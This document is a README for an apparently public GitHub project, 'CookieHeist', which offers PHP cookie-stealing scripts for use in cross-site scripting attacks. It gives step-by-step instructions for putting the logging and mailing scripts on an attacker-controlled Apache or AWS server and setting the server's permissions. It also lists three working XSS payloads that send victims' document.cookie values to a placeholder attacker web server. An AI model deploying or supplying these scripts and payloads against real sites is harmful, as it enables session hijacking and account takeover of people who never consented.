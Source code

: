 # CookieHeist
PHP Cookie Stealing Scripts for use in XSS

1. Cookiesteal-simple.php - Records whatever "c" parameter holds, in example case the document.cookie string, writes value to log.txt. 

2. Cookiemail.php - This version code will mail the cookies to hacker mail using the PHP() mail function with subject “Stolen cookies”.

3. Cookiesteal-v.php (verbose) - Collects the IP address, port number, host(usually computer-name), user agent and cookie.

## Usage
1. On the remote attacker machine, start the webserver (Apache2 in example):
```
sudo service apache2 start
```
2. Git clone the repo locally and then push the chosen "Cookie stealer" PHP script from local host to the attacking machine

```
git clone https://github.com/RxSec/CookieHeist

cd CookieHeist

sudo scp cookiestealer-simple.php username@AttackMachine:/var/www/html/

sudo scp log.txt username@AttackMachine:/var/www/html/
```
**AWS Version**:

```
scp -i AWS-Key.pem cookiesteal-simple.php ec2-user@ec2[YOUR IP].us-east-2.compute.amazonaws.com:~/.

sudo mv cookiestealer-simple.php /var/www/html/
```

Example: http://[Attacker Webserver]/cookiesteal-simple.php

##### Setting Permissions:

Figure out which user is owning httpd process using the following command:
```
ps aux | grep httpd
```
Output should be similar to this:
```
ec2-user  1569  0.0  0.1  12840  1064 pts/0    S+   17:55   0:00 grep httpd
```
So now you know the user who is trying to write files, which is in this case ec2-user You can now go ahead and set the permission for directory where your php script is trying to write something:
```
sudo chown ec2-user:ec2-user /var/www/html/

sudo chmod 755 /var/www/html/
```

_XSS Payload Examples_:
* <script javascript:text>document.location="http://[Attacker Webserver]cookiesteal-simple.php?c=" + document.cookie + "&t=Alert"; </script>

* <script>document.location='http://[Attacker Webserver]/cookiesteal-v.php?cookie=' + document.cookie</script>

* <img src=x onerror=this.src='http://[Attacker Webserver]/cookiesteal-v.php?cookie='+document.cookie>
